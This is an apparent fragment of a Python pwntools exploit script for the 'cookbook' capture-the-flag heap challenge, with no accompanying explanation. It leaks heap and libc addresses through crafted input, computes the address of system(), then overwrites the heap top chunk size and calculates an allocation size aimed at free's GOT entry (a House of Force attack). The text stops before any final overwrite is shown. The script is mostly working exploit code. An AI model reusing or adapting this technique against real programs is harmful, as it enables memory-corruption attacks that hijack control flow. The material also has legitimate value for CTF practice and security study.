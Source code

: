 ```python
s.recvuntil("[q]uit\n")
s.sendline("p")
s.recvuntil("(null)\n\n")
heap_leak = int(s.recvuntil(" "), 10)

TOP_chunk = heap_leak - 0x94

print
log.info("TOP_chunk : " + hex(TOP_chunk))

s.recvuntil("[q]uit\n")
s.sendline("q")

# libc_leak
s.recvuntil("[q]uit\n")
s.sendline("g")

s.recvuntil("how long is the name of your cookbook? (hex because you're both a chef and a hacker!) :")
s.sendline("40c")

payload = p32(calloc_got) * 2
s.sendline(payload)

s.recvuntil("[q]uit\n")
s.sendline("c")
s.recvuntil("[q]uit\n")
s.sendline("p")
s.recvuntil("(null)\n\n")
libc_calloc = 0x100000000 + int(s.recvuntil(" "), 10)

libc_base = libc_calloc - calloc_off
libc_system = libc_base + system_off

log.info("libc_base : " + hex(libc_base))
log.info("libc_calloc : " + hex(libc_calloc))
log.info("libc_system : " + hex(libc_system))
print

s.recvuntil("[q]uit\n")
s.sendline("q")
s.recvuntil("[q]uit\n")
s.sendline("R")

# overwrite_TOP_chunk
func_ingredient("d")
func_recipe("n")

s.recvuntil("[q]uit\n")
s.sendline("c")
s.recvuntil("[q]uit\n")
s.sendline("i")
payload = "A"*0x380
payload += "\xff\xff\xff\xff" # TOP_chunk
s.sendline(payload)
s.sendline("q")

s.recvuntil("[q]uit\n")
s.sendline("g")
s.recvuntil("how long is the name of your cookbook? (hex because you're both a chef and a hacker!) :")
chunk_size = 0x100000000 + (free_got - 0x10 - TOP_chunk) - 0x4
s.sendline(str(hex(chunk_size))[2:])
```